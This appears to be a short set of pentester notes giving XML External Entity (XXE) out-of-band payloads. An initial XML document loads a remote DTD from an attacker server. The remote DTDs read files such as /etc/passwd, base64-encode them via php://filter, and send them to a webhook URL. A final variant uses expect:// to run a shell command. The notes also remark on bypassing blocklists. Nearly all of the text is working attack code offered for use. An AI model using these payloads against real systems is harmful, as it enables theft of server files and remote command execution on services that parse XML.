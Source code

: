 **Initial XXE OOB to load remote one**

**useful for bypassing blocklists such as "SYSTEM" can also do encoding shenanigans**

```xml
<?xml version='1.0'?>

<!DOCTYPE data [
  <!ENTITY % ext_dtd PUBLIC "" "https://ATTACKER_SERVER/malicious.dtd">
  %ext_dtd;
  %exfil;
]>

<users>
    <user>
        <username>dededededededededededededede&exfil;</username>
        <password>lol</password>
        <name>Alexandra</name>
        <email>alex@astromine.com</email>  
        <company>Astromine</company>
        <isAdmin>1</isAdmin>
    </user>
```

**The Remote Malicious.dtd**
```xml
<!ENTITY % internal_dtd SYSTEM "http://10.32.78.218/oiaeurgbaowe/evil.dtd">
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'https://WEBHOOKURL HERE/?data=%file;'>">
%param3;

```
**PHP Base64 encoded output of the file in case the server is choking from special characters**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'https://WEBHOOK URL /?data=%file;'>">
%param3;
```

**For RCE**
```xml
<!ENTITY % file SYSTEM "expect://ls ">
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'https://WEBHOOK URL HERE/?data=%file;'>">
%param3;

```
